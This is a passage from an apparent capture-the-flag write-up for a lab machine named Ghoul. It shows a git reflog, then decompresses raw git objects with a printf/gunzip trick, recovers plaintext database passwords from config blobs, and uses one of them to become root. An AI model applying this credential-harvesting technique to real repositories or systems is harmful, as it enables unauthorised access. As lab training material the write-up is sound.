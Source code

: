 <b>logs/refs/remotes/origin/master</b>:51d2c360b13b37ad608361642bd86be2a4983789 ed5a88cbbc084cba1c0954076a8d7f6f5ce0d64b kaneki <kaneki@aogiri.htb> 1546062891 +0530   update by push
<b>logs/refs/remotes/origin/master</b>:813e0a518064778343ba54b64e16ad44c19900fb b3752e00721b4b87c99ef58e3a54143061b20b99 kaneki <kaneki@aogiri.htb> 1546063465 +0530   update by push
<b>logs/refs/remotes/origin/master</b>:b3752e00721b4b87c99ef58e3a54143061b20b99 e29ad435b1cf4d9e777223a133a5b0a9aaa20625 kaneki <kaneki@aogiri.htb> 1546063708 +0530   update by push
<b>logs/refs/remotes/origin/master</b>:e29ad435b1cf4d9e777223a133a5b0a9aaa20625 0d426b533d4f1877f8a114620be8a1294f34ab71 kaneki <kaneki@aogiri.htb> 1546064105 +0530   update by push
<b>logs/refs/remotes/origin/master</b>:0d426b533d4f1877f8a114620be8a1294f34ab71 e29ad435b1cf4d9e777223a133a5b0a9aaa20625 kaneki <kaneki@aogiri.htb> 1546064304 +0530   update by push
<b>logs/refs/remotes/origin/master</b>:e29ad435b1cf4d9e777223a133a5b0a9aaa20625 0d426b533d4f1877f8a114620be8a1294f34ab71 kaneki <kaneki@aogiri.htb> 1546064632 +0530   update by push
<b>logs/refs/remotes/origin/master</b>:0d426b533d4f1877f8a114620be8a1294f34ab71 b43757dbbefdb3af3966fbd5ca273496180dc913 kaneki <kaneki@aogiri.htb> 1546064802 +0530   update by push
<b>logs/refs/remotes/origin/master</b>:b43757dbbefdb3af3966fbd5ca273496180dc913 647c5f1a2f95e117244d9128bff7a579ca1d4968 kaneki <kaneki@aogiri.htb> 1546065107 +0530   update by push</pre>

Looking at the configurations, this remote has been hosted by gogs , probably a while ago and we cannot access it anymore. The only hope is that some crucial information has been stored into git objects.
Git objects can be found under .git/objects folder and they are zlib files. Luckily for us, stackoverflow will help ! https://stackoverflow.com/questions/3178566/how-to-deflate-with-a-command-line-tool-to-extract-a-git-object

<pre>printf "\x1f\x8b\x08\x00\x00\x00\x00\x00" | cat - .git/objects/c0/fb67ab3fda7909000da003f4b2ce50a53f43e7 | gunzip → this works!</pre>

So start trying all the the git objects one by one, taking note for eventual new password appearing, suddenly I got something...

<pre>
    /.git/objects/41# printf "\x1f\x8b\x08\x00\x00\x00\x00\x00" | cat - * | gunzip | strings

gzip: stdin: unexpected end of file
blob 476
server.port=8080
spring.datasource.url=jdbc:mysql://localhost:3306/db
spring.datasource.username=root
spring.datasource.password=g_xEN$ZuWD7hJf2G
</pre>

Tried the new password everywhere... Nein!

<pre>gzip: stdin: unexpected end of file
blob 478
server.port=8080
spring.datasource.url=jdbc:mysql://localhost:3306/db
spring.datasource.username=kaneki
spring.datasource.password=7^Grc%C\7xEQ?tb4
server.address=0.0.0.0</pre>

And the new password... works! We are able to become root on 172.20.0.150

<pre>su : pasword 7^Grc%C\7xEQ?tb4</pre>

![](/images/Ghoul/kaneki_13.png)
